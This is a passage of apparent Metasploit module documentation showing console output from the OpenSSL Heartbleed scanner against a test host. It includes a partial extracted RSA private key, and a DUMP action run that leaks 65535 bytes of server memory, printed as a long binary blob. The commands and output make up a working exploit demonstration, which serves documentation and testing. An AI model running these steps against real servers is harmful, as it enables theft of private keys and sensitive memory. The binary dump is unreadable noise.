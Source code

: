 ```
Nx2YT7eEcEIMOzOYF0zUH/gLo7UbZXGk/GlupqWP7kumwALz5Hu3gnx5+c69A0yL
FbawD4i1LZxrihOuuy3nt34hIlprjtW2WV49NiWnbwEzZo6ejm5NRg==
-----END RSA PRIVATE KEY-----

[*] 222.222.2.222:44330   - Private key stored in /root/.msf4/loot/20191012213218_default_222.222.2.222_openssl.heartble_250185.txt
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### DUMP against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

```
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set action DUMP
action => DUMP
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 222.222.2.222:44330   - Heartbeat response with leak, 65535 bytes
[+] 222.222.2.222:44330   - Heartbeat data stored in /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > cat /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin
[*] exec: cat /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin

���]�O���g�hE�_.[�MT��b��΋k�f��
�"�!98����5����
��	��32��ED��/�A���
                        �      �@�DA8u-�	b�,��Y'L��Մ�ձ3��-�bt����`�;ˋz���4���
�`���w��Vnvv�x���'�`���Y$�H                                                         |��k	E��ޞ=A�Gx�A��
                           a��f�D�9I��W�ϋ3/�V�s�D%����|������Z;��1FF���)�vC���ny7m��N1v/�&�Y�T@��e�3�D�ʗ�O��pc��,�y��q�G�g��z��`^�s�Mk*����Ou���E�ぜ���l]�%<,�@��S�зN�	"�����"���ct{uj��Ц�*N���a\{�5vRNW��-4S�^0b�e��7���=r���J>D��)V)C�m�y�-�F,�~VMD�E
�s��'����EVY�@�����H9*�[�]}�n1㺟N�'�p��0���x�j���a�k�F�W$�@]�lS`\���x�U�Wk�kƑ�o�%�Ё��B��-v��9��!)ᗙ�>�Ty�oXJ�
31��R��S0Q0U�]�v%C��#��*�B|c
K0U#0��]�v%C��#��*�B|c
K0U�0�0 *�H��
���^��#
       怅W7��G�w�n�*wFcR�~����l8�C*]��@��g+;=�|8�b߬3

1�ŏmA�,�s��l1v�d����m�i^�������y�}����5�2��'��s�M����G �U�2[������N�^p](������*\��3(ic�U��{�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��!��)�U���B/w�����)�U�#�%��\ �rV���A#��_
                                                                                                                                       �m&r�]�J�
;���/_��
���rD���WMZt0���*ʟ����J�bB�U

|�ƭ���6���,s�d��7�s�8$,�I|��'�7ײ
                                �X��j�%����uj}��Y�a'�Ks��V��c.���vn:
B���c��q)GL�y0T�a&aZ�*q/#��������)�:յ�-����ހYi�R3�rb)��
�����5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴ;�v��]��I@��Á�K7H��
                                                                                                              i�,�ut�~�
                                                                                                                       ߃��u*n��w����.�fU���	R�X��y��^��|�0��udh����F������>��-��y�n�Š�윀�1��P�����W
```